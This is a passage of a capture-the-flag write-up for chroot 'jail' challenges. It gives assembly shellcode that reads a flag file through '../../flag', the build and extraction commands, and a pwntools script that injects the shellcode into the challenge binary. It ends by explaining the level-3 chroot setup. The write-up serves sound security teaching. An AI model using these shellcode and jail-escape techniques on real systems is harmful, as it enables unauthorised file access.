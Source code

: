 ```

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "../../flag"
```
We can compile the program using `gcc`.
```
$ gcc -nostdlib ./shellcode.s -o ./shellcode
```
Let's extract the .text section using `objcopy`.
```
$ objcopy --dump-section .text=./shellcode.bin ./shellcode
```
Now we can send this code as STDIN.
```
$ /challenge/babyjail_level2 / < shellcode.bin
```
Note that we are in the `hacker` directory.

The `shellcraft` module from `pwn` allows us to create a shellcode easily. You could also use this method.

However creating our own shellcode allows us to have more control over it.
```python
from pwn import *

elf = ELF("/challenge/babyjail_level2")

context.arch="amd64"

shellcode = asm(shellcraft.readfile("flag", 1))

p = process(["/challenge/babyjail_level2", "/"], cwd="/")
p.sendline(shellcode)
p.interactive()
```

&nbsp;

## level 3
> You may open a specified file, as given by the first argument to the program (argv[1]).
> You may upload custom shellcode to do whatever you want.

On examining the code for this level, we can see that this time we have been put into the jail.
```
assert(chroot(jail_path) == 0);

puts("Moving the current working directory into the jail.\n");
assert(chdir("/") == 0);
```
That means we cannot just `../../flag` our way to getting the flag.
